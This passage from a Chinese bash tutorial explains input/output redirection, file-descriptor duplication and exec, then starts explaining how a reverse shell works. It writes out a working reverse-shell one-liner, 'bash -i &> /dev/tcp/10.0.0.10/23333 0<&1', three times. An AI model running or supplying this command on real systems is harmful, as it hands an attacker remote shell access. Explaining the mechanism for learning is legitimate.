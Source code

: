执行过程:先判断file是否存在,若存在则删除,然后创建file ,再将[fd]重定向到file,以写的方式打开

即[fd]将指向file

[fd]>> file 以追加的方式打开 file

##### 输入重定向

[fd]< file ([fd]和<之间没有空格,而<和file 之间有空格),如果[fd]为空,默认为0

执行过程:将[fd]重定向到file,以读的方式打开,若不存在则报错,即[fd]将指向file



##### 标准输入和标准错误输出重定向

```sh
&>word 与 >&word 相同(没有空格哦)
等价于 2> word 1>&2
```

标准输入和标准错误输出重定向到word上



##### &的使用

1. &[n] 代表[n]说引用的文件(特别像c++里的引用)

2. 文件描述符的复制
   [n]>&[m]或[n]<&[m] (没用空格)，这两个的意思都是将[n]重定向到[m]引用的文件上,

   至于为啥,我也不懂,我把它看成了固定格式

3. &> 和<& 标准输入和标准错误输出重定向

##### **exec 绑定重定向**

格式：exec [n] </> file/[n]

上面的输入输出重定向将输入和输出绑定文件或者设备以后只对当前的那条指令有效，如果需要接下来的指令都支持的话就需要使用 exec 指令

##### 重点

1.bash 在执行一条指令的时候，首先会检查命令中存不存在重定向的符号，如果存在那么首先将文件描述符重定向（之前说过了，输入输出操作都是依赖文件描述符实现的，重定向输入输出本质上就是重定向文件描述符），然后在把重定向去掉，执行指令

2.如果指令中存在多个重定向，那么不要随便改变顺序，因为重定向是从左向右解析的，改变顺序可能会带来完全不同的结果（这一点我们后面会展示）

3.输入输出重定向的差异是打开文件的方式不同,不要被他们的名字迷惑.否则后面看别人写的会一脸懵逼，如

```shell
bash -i &> /dev/tcp/10.0.0.10/23333 0<&1
和
bash -i &> /dev/tcp/10.0.0.10/23333 0>&1
```

4.重定向的左边一定是[fd]

### 反弹shell的原理

```shell
bash -i &> /dev/tcp/10.0.0.10/23333 0<&1
```
